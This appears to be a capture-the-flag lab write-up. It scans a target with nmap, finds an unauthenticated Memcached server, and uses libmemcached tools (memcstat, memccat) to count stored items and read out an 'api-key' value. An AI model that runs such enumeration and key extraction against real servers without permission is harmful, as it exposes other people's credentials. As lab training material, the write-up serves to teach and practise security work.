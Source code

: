 Off-hand, the references to key-value pairs and different layers of cache make me think that this challenge uses Redis or Memcached, but I will use nmap to confirm this hypothesis.

```
root@attackdefense:~# nmap -sV 192.179.78.3 -p 0-65535
Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-07 01:30 IST
Nmap scan report for target-1 (192.179.78.3)
Host is up (0.000014s latency).
Not shown: 65535 closed ports
PORT      STATE SERVICE   VERSION
11211/tcp open  memcached Memcached 1.5.12 (uptime 204 seconds)
```

Memcached it is. Luckily for us, _libmemcached_ is installed, as discovered using _apropos_.

```
root@attackdefense:~# apropos memcached
memcached (1)        - high-performance memory object caching system
memcaslap (1)        - libmemcached Documentation
memccapable (1)      - libmemcached Documentation
memccat (1)          - libmemcached Documentation
memccp (1)           - libmemcached Documentation
memcdump (1)         - libmemcached Documentation
memcerror (1)        - libmemcached Documentation
memcexist (1)        - libmemcached Documentation
memcflush (1)        - libmemcached Documentation
memcparse (1)        - libmemcached Documentation
memcping (1)         - libmemcached Documentation
memcrm (1)           - libmemcached Documentation
memcslap (1)         - libmemcached Documentation
memcstat (1)         - libmemcached Documentation
memctouch (1)        - libmemcached Documentation
```

Using _memcstat_, getting the total number of pairs is simple.
```
oot@attackdefense:~# memcstat --servers=192.179.78.3
Server: 192.179.78.3 (11211)
	 pid: 7
	 uptime: 274
	 time: 1586203318
	 version: 1.5.12
	 libevent: 2.0.21-stable
...
	 curr_items: 15
	 total_items: 42
...
```

Note that while you might think that _total\_items_ would be the correct answer, only the items in _curr\_items_ are actuall stored on the server right now.

Moving on, I used _memccat_ to get the value for the _api-key_ key.

```
root@attackdefense:~# memccat --servers=192.179.78.3 api-key
0c50e7e8b66421217aa39e2286c2d5df
```

